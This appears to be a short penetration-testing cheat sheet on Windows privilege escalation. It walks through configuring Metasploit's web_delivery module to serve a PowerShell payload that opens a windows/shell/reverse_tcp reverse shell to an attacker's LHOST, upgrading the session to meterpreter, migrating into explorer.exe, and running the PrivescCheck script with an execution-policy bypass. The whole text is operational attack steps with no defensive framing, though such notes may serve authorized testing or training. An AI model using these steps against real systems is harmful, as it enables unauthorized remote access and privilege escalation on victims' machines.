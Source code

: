 # Identifying Windows Privilege escalation
This script identifies privilige escalation  
https://github.com/itm4n/PrivescCheck

**Web Delivery**  
- Module: multi/script/web_delivery
  - This creates a script that we can run on the target system
  - Set target to powershell (for windows) -- ```set target PSH\ (Binary)```
  - set payload windows/shell/reverse_tcp
  - set PSH-EncodedCommand false

Use shell to meterpreter  
1. set LHOST
2. set SESSION
3. Show advanced
4. set WIN_TRANSFER VBS

Migrate to explorer.exe  
Run the script using command from the github page -- ```powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"```
